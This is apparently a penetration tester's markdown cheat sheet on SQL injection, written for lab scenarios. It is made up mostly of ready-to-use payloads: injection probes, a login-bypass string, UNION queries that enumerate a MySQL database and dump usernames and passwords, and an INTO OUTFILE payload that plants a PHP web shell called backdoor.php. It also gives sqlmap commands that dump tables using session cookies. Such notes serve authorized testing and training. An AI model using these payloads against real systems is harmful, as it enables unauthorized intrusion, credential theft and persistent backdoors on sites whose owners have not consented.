 # SQL injection

## Basic technique

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

### POST parameters

You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a `'` at the end, like `lang=en'`.

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration

The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inj.php?id=1 union all select 1,2,3,@@version,5
```

You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:

```text
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```

Get the current user:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```

See all tables:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```

Get column names for a specified table:

```text
http://ip/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```

Get usernames and passwords \(0x3a means `:`\):

```text
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```

You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root:

```text
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

I suspect you could inject a full reverse shell in there too...

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```

It may not run unless you specify the database type.

Get the databases:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```

Get the tables in a database:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```

Get the columns in a table:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```

Dump a table:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```

### Passing tokens

If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:

```text
sqlmap -r request.txt
```

If you just need to pass a cookie:

```text
sqlmap -u "http://[host]/inject.php" --cookie "PHPSESSID=foobar"
```

### REST-style URLs

If your URLs have no parameters, you can still test them:

```text
sqlmap -u "http://[host]/param1*/param2*"
```

## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
* [SQLmap tutorial](https://www.binarytides.com/sqlmap-hacking-tutorial/)

